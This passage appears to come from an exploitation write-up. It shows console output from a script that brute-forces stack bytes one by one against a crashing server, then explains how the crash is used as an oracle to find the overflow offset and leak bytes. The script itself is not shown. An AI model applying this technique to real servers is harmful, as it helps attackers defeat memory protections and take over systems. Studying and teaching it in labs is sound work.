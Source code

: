 ```
Found byte: 0x33
Found byte: 0xcc
Found byte: 0x2b
Found byte: 0xaf
Found byte: 0x0
Found byte: 0x0
Found byte: 0xfe
Found byte: 0xff
Found byte: 0xff
Found byte: 0x7f
Found byte: 0x0
Found byte: 0x0
Found byte: 0x22
Found byte: 0xc
Found byte: 0x40
Found byte: 0x0
Found byte: 0x0
Found byte: 0x0
Found byte: 0x0
^C
Bytes:
0x0 0x19 0x8b 0xd0 0x33 0xcc 0x2b 0xaf 0x0 0x0 0xfe 0xff 0xff 0x7f 0x0 0x0 0x22 0xc 0x40 0x0 0x0 0x0 0x0 0x0 0x0 0x0 0x0 0x0 0x0
...
```

The script detects the crash of the server (connection is terminated).

First it will send as many bytes as needed until the server crashes to find the offset.

Afterwards, it will iterate through all bytes to see with which bytes the server does
not crash. A byte of 0x0 usually indicates that the server does not care what the content
of the byte is exactly.
